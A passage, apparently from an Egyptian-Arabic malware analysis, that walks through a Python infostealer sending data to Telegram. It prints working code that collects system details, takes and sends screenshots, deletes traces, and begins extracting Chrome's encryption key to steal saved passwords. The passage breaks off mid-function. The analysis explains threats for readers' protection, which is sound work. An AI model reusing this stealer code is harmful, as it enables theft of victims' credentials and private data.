 يعني أي حاجة الكود بيسرقها (باسورد، صورة، فيديو)، بتروح على طول للشات ده من غير ما تحتاج تدخّل.

---

### الحاجات الخبيثة اللي بيعملها بالتفصيل

#### 1. **جمع معلومات أول ما يشتغل**
```python
def send_startup_info():
    username = getpass.getuser()
    os_info = platform.platform()
    cpu = platform.processor()
    device_name = platform.node()
    message = f"🖥️ جلسة جديدة بدأت\n👤 المستخدم: {username}\n💻 الجهاز: {device_name}\n🧠 المعالج: {cpu}\n🧾 نظام التشغيل: {os_info}"
    send_to_telegram_split(message)
    screenshot_path = os.path.join(tempfile.gettempdir(), "screenshot.jpg")
    pyautogui.screenshot().save(screenshot_path)
    send_photo_to_telegram(screenshot_path)
    os.remove(screenshot_path)
    extract_browser_credentials()
```

- **إيه اللي بيحصل؟**:
  - أول ما تفتح البرنامج، بيلمّع معلومات عنك وعن جهازك:
    - **إسم المستخدم**: بيستخدم `getpass.getuser()` عشان يعرف إسمك في الويندوز (زي "Ahmed" لو ده إسم حسابك).
    - **نظام التشغيل**: بيستخدم `platform.platform()` عشان يعرف إنت على ويندوز 10 ولا 11، وإصدار كام.
    - **المعالج**: بيستخدم `platform.processor()` عشان يعرف نوع المعالج (زي Intel i7 أو AMD Ryzen).
    - **إسم الجهاز**: بيستخدم `platform.node()` عشان يعرف إسم الكمبيوتر (زي "DESKTOP-12345").
  - بيحط المعلومات دي في رسالة مرتبة، زي:
    ```
    🖥️ جلسة جديدة بدأت
    👤 المستخدم: Ahmed
    💻 الجهاز: DESKTOP-12345
    🧠 المعالج: Intel Core i7
    🧾 نظام التشغيل: Windows-10-22H2
    ```
  - بيبعت الرسالة دي لتيليجرام باستخدام `send_to_telegram_split`.
  - بعد كده، بياخد **سكرين شوت** باستخدام `pyautogui.screenshot()`:
    - بيحفظ الصورة في مكان مؤقت (زي `C:\Users\Ahmed\AppData\Local\Temp\screenshot.jpg`).
    - بيبعت الصورة لتيليجرام.
    - بيمسح الصورة عشان ما تلاقيش أثر.
  - أخيرًا، بيروح ينفّذ دالة `extract_browser_credentials()` عشان يسرق باسوردات المتصفح (هنشرحها بعدين).
- **ليه خطير؟**:
  - اللي بيستلم الرسالة دي بيعرف إنت مين، جهازك إيه، وإيه اللي مفتوح على الشاشة. لو كنت فاتح إيميلك أو حاجة مهمة، هيشوفها.
  - ده زي ما تكون بدّيت حد صورة كاملة عن جهازك من أول دقيقة.

---

#### 2. **سرقة باسوردات المتصفح**
```python
def get_encryption_key():
    local_state_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local", "Google", "Chrome", "User Data", "Local State")
    if not os.path.exists(local_state_path):
        send_to_telegram_split("⚠️ ملف 'Local State' غير موجود. تأكد من تثبيت Chrome.")
        return None
    try:
        with open(local_state_path, "r", encoding="utf-8") as f:
            local_state = json.load(f)
        key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
        key = key[5:]  # Remove 'DPAPI'
```